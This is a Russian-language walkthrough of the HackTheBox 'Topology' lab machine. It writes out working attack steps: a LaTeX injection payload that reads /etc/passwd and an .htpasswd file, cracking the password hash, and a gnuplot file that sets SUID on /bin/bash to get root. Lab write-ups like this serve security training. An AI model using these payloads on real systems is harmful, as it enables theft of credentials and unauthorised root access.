





# Topology
:white_check_mark:  [**LaTeX file read explot**](#LaTeX_file_read)

:white_check_mark:  [**Gnuplot(privesc)**](#Gnuplot(privesc))

___

## Port scan
Сканируем ip командой:
```
nmap -sC -sV topology.htb
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dc:bc:32:86:e8:e8:45:78:10:bc:2b:5d:bf:0f:55:c6 (RSA)
|   256 d9:f3:39:69:2c:6c:27:f1:a9:2d:50:6c:a7:9f:1c:33 (ECDSA)
|_  256 4c:a6:50:75:d0:93:4f:9c:4a:1b:89:0a:7a:27:08:d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Miskatonic University | Topology Group
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Просканируем домен на наличие поддоменов.
```
gobuster vhost -u topology.htb -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -t 50 --append-domain
```

В результате мы получаем два поддомена: **dev.topology.htb** и **stats.topology.htb**. 

Главная страница сайта:


<a name="LaTeX_file_read"></a>

## LaTeX file read explot

На главной странице сайта мы можем найти ссылку на поддомен с LaTeX: **latex.topology.htb**. Добавляем его в /etc/hosts и переходим на сайт.


На сайте [HackTricks](https://book.hacktricks.xyz/pentesting-web/formula-doc-latex-injection) мы можем найти способ эксплуатировать уязвимость в LaTeX.

```
$\lstinputlisting{/etc/passwd}$
```




Ранее мы нашли поддомен dev.topology.htb. Попробуем прочитать файл .htpasswd, которых содержит имена пользователей и пароли.

```
$\lstinputlisting{/var/www/dev/.htpasswd}$
```




Расшифруем хэш с помощью John the Ripper:

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```




<a name="Gnuplot(privesc)"></a>

## Gnuplot(privesc)

Подключаемся по ssh с известными данными пользователя.

Прокинем linpeas на атакуемую машину и запустим скрипт. С помощью него мы можем обнаружить, что на машине используется gnuplot, файлы которого лежат в /opt.




На данной [странице](https://stackoverflow.com/questions/27909281/how-to-run-a-system-command-in-gnuplot) мы можем узнать, что мы можем использовать системные команды через gnuplot.

Прокинем на машину pspy64, чтобы просмотреть процессы.
 




Мы можем заметить что gnuplot запускает файлы с названиями *.plt которые лежат в директории /opt/gnuplot. Создадим свой файл и внесем в него вредоносный код, который позволит повысить привилегии.

```
echo 'system "chmod u+s /bin/bash"' > /opt/gnuplot/1.plt
```

Ждем некоторое время и прописываем команду:

```
bash -p
```

Мы получили root.